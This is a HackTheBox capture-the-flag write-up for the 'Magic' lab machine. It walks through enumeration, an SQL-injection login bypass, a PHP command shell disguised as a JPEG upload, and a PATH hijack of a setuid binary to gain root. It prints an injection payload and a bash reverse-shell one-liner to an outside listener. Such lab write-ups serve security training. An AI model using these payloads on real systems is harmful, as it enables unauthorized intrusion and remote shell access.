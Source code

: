 # **HACKTHEBOX – MAGIC WRITEUP**

![](RackMultipart20200925-4-tfagf1_html_667d7be7cc0ffee5.png)

# **IP: 10.10.10.185**

# **Enumeration**

First, we will run nmap.

![](RackMultipart20200925-4-tfagf1_html_35bb92cb21fa1d06.png)

The scan shows 2 ports are open. Port 22 for SSH and port 80 for Apache.

I will start an all ports nmap scan ( -p ) just in case there are more open ports.

![](RackMultipart20200925-4-tfagf1_html_bc743e96c7770bcb.png)

The Apache web server has a wider attack surface, so that is what I am going to enumerate more first.

![](RackMultipart20200925-4-tfagf1_html_34fa9c21cfeeab9b.png)

Port 80 gives a web page with a bunch of images.

Clicking an image only displays the clicked image.

![](RackMultipart20200925-4-tfagf1_html_b87eb59bf871fbb3.png)

# **FOOTHOLD**

There is a login button at the bottom left corner that takes me to a php login page.

![](RackMultipart20200925-4-tfagf1_html_890bed27c2b7ae8.png)

Knowing that this web server has PHP files, I am going to start a gobuster for hidden directories and php files.

![](RackMultipart20200925-4-tfagf1_html_dd3bf8e8ad625b7d.png)

There is a file called &quot;upload.php&quot;. Upload functions tend to be exploitable, so I am going to take a closer look at that file. Opening that files takes me back to the login page.

Whenever I meet a login page, I will always try some weak credentials. Sadly, they didn&#39;t work on this login page. So I try some SQL injection, but the page doesn&#39;t allow spaces for whatever reason. I use Burpsuite to intercept my login request and insert the SQL injection payload that way.

Username: &#39;OR 1=1 -- -

Password: doesn&#39;t matter

Press ctrl + u to URL encode and forward it to the server.

![](RackMultipart20200925-4-tfagf1_html_d79bf28b901f838b.png)

We got logged in!

![](RackMultipart20200925-4-tfagf1_html_e069d3f801c47024.png)

Exploiting an upload function is easier using Burpsuite, that is where I am going to insert my payloads.

Uploading a php file returns an error.

![](RackMultipart20200925-4-tfagf1_html_8118e14a52ebef3d.png)

So there is some file type validations going on, we need to bypass it.

There are a few ways to validate a file. It can be through file extension, MIME type or magic bytes. So I am going to modify the request through the repeater tab (ctrl + r) hopefully bypass the file validations.

I upload a jpeg file and put some php code in it with Burpsuite.

![](RackMultipart20200925-4-tfagf1_html_39ba9cee7fee6cfa.png)

This is a simple php code execution script and will run any command through the &quot;cmd&quot; parameter.

The original file name is &quot;lol.jpeg&quot; and I change it to &quot;lol.jpeg.php&quot;.

After that, I send the request to the server but I still get the error.

So I change the filename to &quot;lol.php.jpeg&quot; because there is a chance that apache .htaccess is configured in a weird way and run &quot;php.jpeg&quot; files as php.

![](RackMultipart20200925-4-tfagf1_html_c8fb2ddf01bfcee7.png)

I successfully uploaded the file.

Now we need to access the file for the server to run the php code.

If you go back to the main page and click view image on an image there, the directory where the image is stored is on &quot;/image/uploads/&quot;. So I try to hit &quot;/image/uploads/lol.php.jpeg&quot;.

![](RackMultipart20200925-4-tfagf1_html_9b486c5227cc385d.png)

I successfully access the file. Now I will try injecting a command.

![](RackMultipart20200925-4-tfagf1_html_d635245a792207b2.png)

I run the command &quot;whoami&quot; and it returns www-data. We know for sure we have command execution.

Now we will try a reverse shell payload.

Payload: bash -c &#39;bash -i \&gt;&amp; /dev/tcp/10.10.14.2/9001 0\&gt;&amp;1&#39;

I set up a listener on port 9001, click send and we got a shell as www-data.

![](RackMultipart20200925-4-tfagf1_html_ba5649e21650bd30.png)

# **USER**

Looking at the db.php5 file, we got some credentials.

![](RackMultipart20200925-4-tfagf1_html_fd443e7a915f9fe1.png)

Using those creds to switch user to &quot;theseus&quot; doesn&#39;t work, But we know this is a database credential, we access the database and get more stuff.

But mysql is not installed so I use &quot;mysqldump&quot; instead.

![](RackMultipart20200925-4-tfagf1_html_ab75d2c12b4c6504.png)

Dumping the database &quot;Magic&quot; gives more credentials.

![](RackMultipart20200925-4-tfagf1_html_cda2d65c1ea45a71.png)

Using the creds from the sqldump, I can switch to user &quot;theseus&quot;.

# **ROOT**

After getting the theseus user, I like to do some find commands to see what files belong to the user.

Running this returns a lot of stuff that I am too lazy to look at.

![](RackMultipart20200925-4-tfagf1_html_922d15cc0c484ad6.png)

So I decided to use groups instead.

If we use the groups command, theseus belongs to a group called &quot;users&quot;.

![](RackMultipart20200925-4-tfagf1_html_c11f9107a30e1db4.png)

Running the find command with groups returns only 1 binary and it is a setuid binary.

I try running the binary and it returns a bunch of system information.

I use strace with the &quot;-f&quot; flag to follow forks on the binary to get more information and I use grep to see what commands this binary is executing.

![](RackMultipart20200925-4-tfagf1_html_f214514f62b0b830.png)

The binary doesn&#39;t use absolute path which means we can abuse this.

I write a simple bash reverse shell script called &quot;free&quot;.

![](RackMultipart20200925-4-tfagf1_html_8a7dac40357e8b26.png)

Then I modify the $PATH and add the directory where my &quot;free&quot; script is located and put it before the others.

![](RackMultipart20200925-4-tfagf1_html_5154923a25470609.png)

Then I setup a listener on port 9002 and run the sysinfo binary and we got root!

![](RackMultipart20200925-4-tfagf1_html_d57eef0a8abf27a1.png)
